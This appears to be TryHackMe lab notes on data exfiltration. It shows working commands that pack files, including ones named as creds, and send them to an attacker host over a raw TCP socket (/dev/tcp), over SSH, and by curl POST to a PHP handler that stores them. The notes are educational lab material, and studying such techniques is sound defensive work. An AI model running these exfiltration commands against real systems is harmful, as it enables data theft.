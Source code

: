 # Data Exfiltration

## How to use Data Exfiltration
#### Traditional Data Exfiltration
#### C2 Communications
#### Tunneling

## Traditional Data Exfiltration
![exfiltration](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/4b08c31e-0867-49a9-913c-558386ada8a4)  

### Exfiltration using TCP socket

<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/3ef38151-35ff-4e52-9933-f1deaca27a2b" width=600>  

1. The first machine is listening over TCP on port 1337
2. The other machine connects to the port specified in step 1. For example, nc 1.2.3.4 1337
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.  

- Listening on port TCP/8080 in the JumpBox
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
- Exfiltrate Data over TCP Socket from the victim machine!
```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/[JUMP_BOX_IP]/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```  
- Restoring the tar file
```
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

### Exfiltration using SSH
- Exfiltration data from the victim1 machine
```
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## C2 Communications
![exfiltrarion2](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/f32ff963-384a-4d9a-8ebb-91bf35fdc5e1)  

### Exfiltrate using HTTP(S)
#### HTTP Data Exfiltration
1. An attacker sets up a web server with a data handler. In our case, it will be `web.thm.com` and the `contact.php` page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the `curl` command.
3. The webserver receives the data and stores it. In our case, the `contact.php` receives the POST request and stores it into `/tmp`.
4. The attacker logs into the webserver to have a copy of the received data.  

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the `/tmp` directory as `http.bs64` file name.   

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```  

- Sending POST data via CURL
```
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```
- Checking the received data and fix it
```
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==

thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```


### Tunneling
![exfiltration3](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/21509d65-0b22-458e-ae64-6ae96c31c3df)

